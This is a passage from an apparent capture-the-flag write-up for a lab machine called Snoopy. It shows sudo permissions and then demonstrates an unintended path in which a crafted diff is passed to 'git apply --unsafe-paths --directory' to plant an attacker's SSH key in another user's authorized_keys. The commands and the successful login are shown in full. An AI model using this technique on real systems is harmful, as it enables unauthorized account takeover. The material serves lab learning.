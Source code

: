 ```
sbrown@snoopy:~$ sudo -l
Matching Defaults entries for sbrown on snoopy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User sbrown may run the following commands on snoopy:
    (root) NOPASSWD: /usr/local/bin/clamscan

```

Each of these allowed for an unintended solution, and each was tighted up with regex to block the unintended paths.

### cbrown –> sbrown: –unsafe-paths

The main point of the exploit to showcase is that symbolic links created in the diff are not protected. However, it is possible to not even need that if I can give any parameters to `git apply` as was the case on release.

For example, I’ll create a diff file in `/dev/shm`:

```
cbrown@snoopy:~$ cat /dev/shm/test.diff
diff --git a/authorized_keys b/authorized_keys
new file mode 100644
index 0000000..ec273c0
--- /dev/null
+++ b/authorized_keys
@@ -0,0 +1 @@
+ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDIK/xSi58QvP1UqH+nBwpD1WQ7IaxiVdTpsg5U19G3d nobody@nothing
--

```

Now I can use `--unsafe-paths` and `--directory` to apply this diff itno the `.ssh` folder of sbrown:

```
cbrown@snoopy:~$ sudo -u sbrown git apply -v --unsafe-paths --directory "/home/sbrown/.ssh" /dev/shm/test.diff
Checking patch /home/sbrown/.ssh/authorized_keys...
Applied patch /home/sbrown/.ssh/authorized_keys cleanly.

```

And SSH in as sbrown:

```
oxdf@hacky$ ssh -i ~/keys/ed25519_gen sbrown@snoopy.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-71-generic x86_64)
...[snip]...
sbrown@snoopy:~$

```
